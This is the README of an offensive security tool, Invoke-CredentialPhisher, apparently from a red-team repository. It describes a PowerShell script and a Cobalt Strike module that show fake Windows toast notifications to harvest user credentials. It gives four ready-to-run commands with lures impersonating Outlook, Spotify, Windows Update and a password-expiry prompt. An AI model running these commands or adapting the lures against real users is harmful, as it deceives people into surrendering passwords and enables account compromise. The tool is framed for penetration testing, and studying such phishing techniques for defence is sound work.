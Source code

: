 ﻿# Invoke-CredentialPhisher

This repository consists of two files:
* Invoke-Credentialphiher.ps1
* phishing_module.cna

The first one is a powershell script to send toast notifications on behalf on an (installed) application or the computer itself. The user will be asked to supply credentials once they click on the notification toast. The second one is a Cobalt Strike module to launch the phishing attack on connected beacons. More information on why these scripts were created can be found on the following blogpost: https://blog.fox-it.com/2018/08/14/phishing-ask-and-ye-shall-receive/

# Examples

Outlook connection:  
```.\Invoke-CredentialPhisher.ps1 -ToastTitle "Microsoft Office Outlook" -ToastMessage "Connection to Microsoft Exchange has been lost.`r`nClick here to restore the connection" -Application "Outlook" -credBoxTitle "Microsoft Outlook" -credBoxMessage "Enter password for user '{emailaddress|samaccountname}'" -ToastType Application -HideProcesses```  

Spotify account subsscription:  
```.\Invoke-CredentialPhisher.ps1 -ToastTitle "Spotify Account Helper" -ToastMessage "Your Spotify Premium subscription will be cancelled at the end of this month" -Application "Spotify" -credBoxTitle "Spotify" -credBoxMessage "Enter your spotify username and password" -ToastType Application```  

Updates are available:  
```.\Invoke-CredentialPhisher.ps1 -ToastTitle "Updates are available" -ToastMessage "Your computer will restart in 5 minutes to install the updates" -credBoxTitle "Credentials needed" -credBoxMessage "Please specify your credentials in order to postpone the updates" -ToastType System -Application "System Configuration" ```  

Password expiration:  
```.\Invoke-CredentialPhisher.ps1 -ToastTitle "Consider changing your password" -ToastMessage "Your password will expire in 5 minutes.`r`nTo change your password, click here or press CTRL+ALT+DELETE and then click 'Change a password'." -Application "Control Panel" -credBoxTitle "Windows Password reset" -credBoxMessage "Enter password for user '{samaccountname}'" -ToastType "Application"```
